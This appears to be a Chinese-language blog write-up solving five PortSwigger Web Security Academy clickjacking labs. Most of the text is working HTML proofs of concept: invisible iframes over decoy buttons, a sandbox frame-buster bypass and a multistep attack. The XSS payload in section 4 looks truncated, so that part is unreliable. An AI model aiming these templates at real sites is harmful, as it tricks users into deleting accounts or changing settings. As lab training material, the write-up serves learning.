

[TOC]

#### 1. Basic clickjacking with CSRF token protection

这个题就直接调整位置，把click me放到delete account里面就可以了。

POC：

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:325px;
       left:50px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://ac271f761f1fdb0480990a41001600cd.web-security-academy.net/account"></iframe>
```

#### 2. Clickjacking with form input data prefilled from a URL parameter

这道题和第一题的区别就在于要自动填入邮箱。

POC:

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:435px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://acc91fe11f276ef48087348200d4004e.web-security-academy.net/email?email=11@11"></iframe>
```

#### 3. Clickjacking with a frame buster script

> Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe **`sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:**
>
> `<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`
>
> Both the `allow-forms` and `allow-scripts` values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.

POC:

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:425px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://acf51fe41e83555c80d329f2007d0006.web-security-academy.net/email?email=11@11" sandbox="allow-forms"></iframe>
```

这里果然禁止了脚本的执行：


而不加sandbox的属性时，就不能成功了。



#### 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS

这个题目包含一个 XSS 漏洞，而这个题目的目的就是用 Clickjacking 去触发 XSS 。

先找到 XSS 漏洞在 feedback 的 name 处。

payload：

```
donx
```

POC：

```html
<style>
   iframe {
       position:relative;
       width:1000px;
       height: 1500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:805px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://ac191f091e6a2a4180e41715004400e8.web-security-academy.net/feedback?name=&email=1@1&subject=1&message=1"></iframe>
```

#### 5. Multistep clickjacking

这道题目需要多次点击。

这里使用id来创建多个div。

POC:

```html
<head>
  <style>
    #target_website {
      position:relative;
       width:1000px;
       height: 1500px;
       opacity: 0;
       z-index: 2;
      }
    #first {
      position:absolute;
       top:280px;
       left:45px;
       z-index: 1;
      }
    #second {
       position:absolute;
       top:280px;
       left:200px;
       z-index: 1;
     } 
  </style>
</head>
<body>
  <div id="first">Click me first</div>
  <div id="second">Click me second</div>
  <iframe id="target_website" src="https://ac0d1ff41ec12a19805c2be0006e0032.web-security-academy.net/account">
  </iframe>
</body>
```

